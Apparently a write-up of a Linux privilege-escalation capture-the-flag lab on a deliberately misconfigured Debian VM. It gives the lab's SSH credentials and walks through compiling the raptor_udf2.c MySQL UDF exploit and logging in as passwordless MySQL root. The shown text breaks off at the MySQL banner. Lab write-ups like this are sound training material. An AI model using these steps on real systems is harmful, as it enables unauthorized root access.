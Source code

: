 ### **Linux PrivEsc**
![Linux PAM and Udisks LPE Vulnerabilities Allow Root Access on Major Distributions](https://github.com/user-attachments/assets/ea1a43bd-6299-4219-8b50-aae079109804)



Practice your Linux Privilege Escalation skills on an intentionally misconfigured Debian VM with multiple ways to get root! SSH is available. Credentials: user:password321

let us deep dive into Linux privilege escalation today 

First lets connect to `ssh` server with passwd **`password321`** 

Run the "id" command. What is the result?

Answer:uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)

Task 2:Service Exploits

The MySQL service is running as root and the "root" user for the service does not have a password assigned. 

in this we need to use  [popular exploit](https://www.exploit-db.com/exploits/1518) to access a UDFs to run system commands as root user ok lets do it the get into root user 

we have following commands to make so 

`cd /home/user/tools/mysql-udf`

Compile the raptor_udf2.c exploit code using the following commands:

- **`gcc`**: This is the GNU Compiler Collection, which is used to compile C and C++ programs.
- **`g`**: This option includes debugging information in the compiled output, which is useful for debugging with tools like gdb.
- **`c`**: This tells the compiler to compile the source file into an object file (`.o`) but not to link it into an executable.
- **`raptor_udf2.c`**: This is the source file being compiled.
- **`fPIC`**: This option generates position-independent code, which is necessary for creating shared libraries.

`gcc -g -c raptor_udf2.c -fPIC` 

`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`

- **`gcc`**: Again, this is the compiler.
- **`g`**: Includes debugging information in the shared library.
- **`shared`**: This option tells the compiler to create a shared library.
- **`Wl,-soname,raptor_udf2.so`**: This passes options to the linker. The `soname` option specifies the shared object name, which is used by the dynamic linker to find the library.
- **`o raptor_udf2.so`**: This specifies the output file name for the shared library.
- **`raptor_udf2.o`**: This is the object file created from the first command, which is being linked into the shared library.
- **`lc`**: This links against the C standard library.

Connect to the MySQL service as the root user with a blank password:

`mysql -u root`

```bash
user@debian:~/tools/mysql-udf$ mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 35
Server version: 5.1.73-1+deb6u1 (Debian)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```